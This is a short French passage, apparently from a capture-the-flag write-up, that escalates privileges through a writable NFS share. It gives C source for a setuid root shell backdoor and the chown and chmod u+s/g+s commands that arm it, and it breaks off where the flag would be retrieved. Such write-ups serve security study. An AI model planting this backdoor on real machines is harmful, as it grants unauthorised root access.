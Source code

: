 Comme prévu, maintenant que l'on peut accéder au partage NFS, rien de bien compliqué.  

On compile la backdoor locale suivante que l'on place dans le partage avec les droits d'alice:  

```c
#include <unistd.h>
#include <sys/types.h>
#include <stdlib.h>

int main(void)
{
  setuid(0);
  setgid(0);
  system("/bin/sh");
  return 0;
}
```

Ensuite on monte le partage NFS en tant que root et on change les permissions :  

```bash
chown root.root g0tr00t
chmod u+s g0tr00t
chmod g+s g0tr00t
```

Ce qui nous permet de récupérer le flag :  
